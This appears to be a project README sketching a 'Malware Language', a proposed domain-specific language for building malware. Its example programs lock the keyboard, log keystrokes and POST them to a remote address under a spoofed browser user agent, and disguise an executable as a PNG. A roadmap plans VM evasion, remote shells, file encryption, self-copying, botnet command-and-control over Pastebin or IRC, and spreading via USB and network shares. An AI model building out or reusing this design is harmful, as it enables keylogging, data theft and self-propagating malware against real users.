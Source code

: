 # Malware Language

Language is only buildable in nix enivorments. But should be able to run on multiple enviroments

### Example code
Basic example
```
use system; @ Imports exit
use keyboard; @ Imports lock, unlock
use window; @ Imports notify

main:{
 keyboard.lock(); @ Locks the keyboard 

 window.notify("Oh hi mark!"); @ Utilizes builtin function

 keyboard.unlock(); @ Unlocks the keyboard
 system.exit();
}
```

Network POST example
```
use system; @ Imports exit
use keyboard; @ Imports log
use network; @ Imports POST
use time; @ Imports until

main:{
 wait:(time.until("22:00")){ @ Waits until 22:00 today before exiting
  info := keyboard.log(); @ Logs everything the user enters
 }

 network.set_user_agent("Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36"); @ Updates the user agent for this request
 network.POST("address", "port", info); @ Will send whatever the user entered 

 system.exit(); @ Exits the program
}
```

Transmog example
```
use system;
use object;
use window;

main:{
 object.set_header_target("png"); @ Will result in the end product being identified as a png
 object.set_extension(".png"); @ Sets the program extension
 
 window.notify("Hello, World!"); @ Prints "Hello, World!" to the screen

 system.exit(); @ Exits the program
}
```

## General ideas on what more the language can do
1. Includes tools to check if the malware is running in a vm, what kind of vm(?)
2.Include options to open socket to target, send commands and retrieve results, copy files, mv files etc.
3. Be able to write to specific disk blocks, write & read from the disk.
4. Encrypt files and decryptions methods. Should contain multiple different encryptions methods
5. Able to copy the executable to different locaitons
6. Metasploit compatability? Being able to run metasploit scripts?
7. Using pastebin for sending commands to zombies in a botnet.
8. IRC for sending commands to zombies in a botnet(?)
9. Copy to usb
10. Copy accross network shared folders

## The compiler should then be able to
1. List arguments for the compiler, `-h`
2. Target plattform, windows, nix

## Technical parts
1. All directories created are temporarly and should be deleted when the program is finished
2. Internal inputs/outpus are all in json format
